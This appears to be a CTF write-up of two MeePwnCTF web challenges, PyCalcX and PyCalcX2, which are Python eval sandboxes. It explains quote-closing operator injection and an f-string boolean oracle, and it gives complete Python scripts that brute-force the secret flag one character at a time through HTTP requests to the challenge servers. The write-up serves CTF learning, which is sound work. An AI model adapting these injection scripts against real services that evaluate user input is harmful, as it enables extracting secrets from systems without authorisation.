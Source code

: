 # PyCalcX (web)

Those were almost identical challenges, and in fact the first one had a simpler, unintended, solution and therefore another version was released.

## PyCalcX (64 solved, 100p)

In the first challenge we get access to a webpage which can evaluate some python for us.
The flag is loaded into the memory, so we basically have a Python Jailbreak to solve.
We get the [source code](calc1.py) of the challenge.

The important things are:

1. We can see only integer or boolean output.
2. Parameters are sanitized, and stringified.
3. Types of parameters have to match.
4. The final payload to eval is `str(repr(value1)) + str(op) + str(repr(value2))` which means for example `'a' + '+' + 'b'`

The vulnerability is here:

```python
    def get_op(val):
        val = str(val)[:2]
        list_ops = ['+','-','/','*','=','!']
        if val == '' or val[0] not in list_ops:
            print('<center>Invalid op</center>')
            sys.exit(0)
        return val
```

The `operator` can be 2-bytes long (like `==`), but only the first byte is checked!
This means for example that we can use operator `+'` and therefore close the `'` quote.

This means we could evaluate: `'SOMETHING' +''+FLAG and FLAG>source#'` which means `some_string and boolean`, which evaluates to the value of this boolean.

Keep in mind we're using the:

```python
if 'source' in arguments:
    source = arguments['source'].value
```

And not for example `value1` variable, because `source` has no blacklist limitations.

```python
import re
import string
import urllib

import requests


def main():
    flag = "M"
    while True:
        prev = 0
        for i in range(255):
            c = chr(i)
            if c in string.printable:
                source = urllib.quote_plus(flag + c)
                op = urllib.quote_plus("+'")
                arg2 = urllib.quote_plus("+FLAG and FLAG>source#")
                result = requests.get("http://178.128.96.203/cgi-bin/server.py?source=%s&value1=x&op=%s&value2=%s" % (source, op, arg2)).text
                if ">>>>" in result:
                    res = re.findall(">>>>.*", result, re.DOTALL)[0]
                    if "False" in res:
                        flag += prev
                        print(flag)
                        break
                    else:
                        prev = c


main()
```

We check every character until the flag becomes bigger than our payload, which means that previous character was the right one, and we can start working on next flag position.
It takes a while but in the end we get: `MeePwnCTF{python3.66666666666666_([_((you_passed_this?]]]]]])`

## PyCalcX2 (54 solved, 100p)

Second level of the challenge is very similar.
We also get the [source code](calc2.py)

The difference is very tiny:

```python
op = get_op(get_value(arguments['op'].value))
```

Which means the operator also passes via blacklist, and therefore cannot contain `'` any more.
But we can still inject something behind the operator!

We guessed that our first solution was unintended, but the flag suggested that intended solution has something to do with new Python features.
We looked at release notes and we found an interesting article: https://www.python.org/dev/peps/pep-0498/

There is a `f` modifier for strings, which allows to do some nice evaluation inside strings.
We could for example do `f'{FLAG}'` and it would place the variable value inside the string.
However since we can't escape from `'` we can't really create any boolean condition anymore.

It took us a while to figure out the approach, but we finally reched: `'T' +f'ru{FLAG>source or 14:x}'`

- We use the short circuit `or` to get one of the two results, depending on the result of first comparison. Basically `True or 14` returns `True` and `False or 14` returns 14.
- We use `x` modifier to turn 14 into hex digit `e`
- The string `f'ru{FLAG>source or 14:x}'` therefore evaluates to either `ru1` or `rue`, depending on the `FLAG>source` condition
- The result of evaluation will be either `Tru1` or `True`, and in the second case, we will se the result on the page, because it will be treated as boolean.

```python
import re
import string
import urllib

import requests


def main():
    flag = "M"
    while True:
        prev = 0
        for i in range(255):
            c = chr(i)
            if c in string.printable:
                print('testing', c)
                arg1 = urllib.quote_plus("T")
                op = urllib.quote_plus("+f")
                arg2 = urllib.quote_plus("ru{FLAG>source or 14:x}")
                result = requests.get("http://206.189.223.3/cgi-bin/server.py?source=%s&value1=%s&op=%s&value2=%s" % (flag + c, arg1, op, arg2)).text
                if ">>>>" in result:
                    res = re.findall(">>>>.*", result, re.DOTALL)[0]
                    if "True" in res:
                        flag += prev
                        print(flag)
                        break
                    else:
                        prev = c


main()
```

The rest of the approach is the same as in previous challenge.
After a while we get: `MeePwnCTF{python3.6[_strikes_backkkkkkkkkkkk)}`
